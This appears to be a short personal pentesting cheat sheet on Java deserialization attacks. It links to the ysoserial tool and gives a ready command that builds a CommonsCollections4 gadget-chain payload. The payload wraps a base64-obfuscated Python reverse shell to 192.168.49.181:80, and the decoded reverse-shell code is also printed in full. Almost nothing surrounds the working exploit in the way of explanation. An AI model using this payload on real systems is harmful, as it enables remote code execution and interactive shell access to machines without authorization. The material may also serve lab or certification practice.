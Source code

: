 # Java Object Deserialization

[https://github.com/frohoff/ysoserial\
https://book.hacktricks.xyz/pentesting-web/deserialization#exploit\
https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar](https://github.com/frohoff/ysoserialhttps://book.hacktricks.xyz/pentesting-web/deserialization#exploithttps://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

ysoserial-master-8eb5cbfbf6-1.jar

`java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxOTIuMTY4LjQ5LjE4MSI7ZXhwb3J0IFJQT1JUPTgwO3B5dGhvbiAtYyAnaW1wb3J0IHN5cyxzb2NrZXQsb3MscHR5O3M9c29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgob3MuZ2V0ZW52KCJSSE9TVCIpLGludChvcy5nZXRlbnYoIlJQT1JUIikpKSk7W29zLmR1cDIocy5maWxlbm8oKSxmZCkgZm9yIGZkIGluICgwLDEsMildO3B0eS5zcGF3bigiL2Jpbi9iYXNoIikn}|{base64,-d}|{bash,-i}" > recycler.ser`

Base64 Encoded: export RHOST="192.168.49.181";export RPORT=80;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));\[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
